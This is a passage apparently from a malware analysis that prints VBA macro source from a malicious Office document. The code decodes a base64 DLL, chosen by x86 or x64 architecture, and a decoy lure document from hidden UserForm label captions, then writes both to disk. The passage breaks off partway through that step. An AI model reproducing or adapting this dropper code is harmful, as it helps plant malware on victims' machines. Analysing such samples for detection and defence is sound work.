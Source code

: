 ```vb
Function Stream_BinaryToString(Binary)
 On Error Resume Next
 Const adTypeText = 2
 Const adTypeBinary = 1
 Dim BinaryStream 'As New Stream
 Set BinaryStream = CreateObject("ADODB.Stream")
 BinaryStream.Type = adTypeBinary
 BinaryStream.Open
 BinaryStream.Write Binary
 BinaryStream.Position = 0
 BinaryStream.Type = adTypeText
 BinaryStream.Charset = "us-ascii"
 Stream_BinaryToString = BinaryStream.ReadText
 Set BinaryStream = Nothing
End Function

Function Base64DecodeToBinary(ByVal vCode)
 On Error Resume Next
 Dim oXML, oNode
 Set oXML = CreateObject("Msxml2.DOMDocument.3.0")
 Set oNode = oXML.CreateElement("base64")
 oNode.dataType = "bin.base64"
 oNode.Text = vCode
 Base64DecodeToBinary = oNode.nodeTypedValue
 Set oNode = Nothing
 Set oXML = Nothing
End Function

Function Base64DecodeToString(ByVal vCode)
 On Error Resume Next
 Dim oXML, oNode
 Set oXML = CreateObject("Msxml2.DOMDocument.3.0")
 Set oNode = oXML.CreateElement("base64")
 oNode.dataType = "bin.base64"
 oNode.Text = vCode
 Base64DecodeToString = Stream_BinaryToString(oNode.nodeTypedValue)
 Set oNode = Nothing
 Set oXML = Nothing
End Function
```
<h6>This block of function extracts the dll in function of the architecture (X86 or X64), the lure document for the victim all on the path pushed in argument.</h6>

```vb
Sub ExtractDll(dllPath)
 On Error Resume Next
 Set objStream = CreateObject("ADODB.Stream")
 objStream.Type = 1
 objStream.Open
#If Win64 Then
 objStream.Write Base64DecodeToBinary(Base64DecodeToString(UserForm1.Label1.Caption))
#Else
 objStream.Write Base64DecodeToBinary(Base64DecodeToString(UserForm1.Label2.Caption))
#End If
 objStream.SaveToFile dllPath, 2
 Set objStream = Nothing
End Sub

Sub ExtractDoc(docPath)
 On Error Resume Next
 Set objStream = CreateObject("ADODB.Stream")
 objStream.Type = 1
 objStream.Open
 objStream.Write Base64DecodeToBinary(Base64DecodeToString(UserForm1.Label3.Caption))
```
